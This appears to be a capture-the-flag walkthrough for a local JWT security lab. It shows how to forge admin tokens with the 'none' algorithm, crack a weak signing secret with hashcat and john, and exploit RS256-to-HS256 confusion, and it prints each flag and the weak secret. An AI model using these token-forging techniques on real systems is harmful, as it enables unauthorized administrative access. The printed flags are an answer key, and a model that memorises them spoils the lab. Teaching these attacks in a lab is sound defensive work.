 ### **Step-by-Step User Journey:**

#### **Authentication System**
```
🌐 Login: http://localhost:5001/api/auth/login
```

**What the user does:**
1. **Normal login attempt**
   ```json
   POST /api/auth/login
   {
     "username": "admin",
     "password": "admin123"
   }
   ```
   - Receives JWT token
   - Token format: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.payload.signature`

#### **Challenge 1: None Algorithm Bypass**

**What the user does:**
1. **Decodes the JWT token**
   - Header: `{"alg":"HS256","typ":"JWT"}`
   - Payload: `{"userId":1,"username":"admin","role":"user"}`

2. **Creates malicious token**
   ```javascript
   // Change algorithm to 'none' and remove signature
   Header: {"alg":"none","typ":"JWT"}
   Payload: {"userId":1,"username":"admin","role":"admin"}
   Token: base64url(header).base64url(payload).
   ```

3. **Tests the bypass**
   - Uses modified token in Authorization header
   - **🏆 FLAG REVEALED: `FLAG{JWT_N0N3_4LG0R1THM_BYPASS}`**

#### **Challenge 2: Weak Secret Brute Force**

**What the user does:**
1. **Attempts to crack the JWT secret**
   ```bash
   hashcat -a 0 -m 16500 jwt_token wordlist.txt
   john --wordlist=rockyou.txt jwt.txt
   ```

2. **Discovers weak secret: `weak_secret_123`**

3. **Forges new tokens**
   - Creates admin tokens with known secret
   - **🏆 FLAG REVEALED: `FLAG{JWT_W34K_S3CR3T_CR4CK3D}`**

#### **Challenge 3: Algorithm Confusion**

**What the user does:**
1. **Exploits RS256 to HS256 confusion**
   - Obtains RSA public key
   - Uses public key as HMAC secret
   - **🏆 FLAG REVEALED: `FLAG{JWT_4LG0_C0NFUS10N_PWND}`**
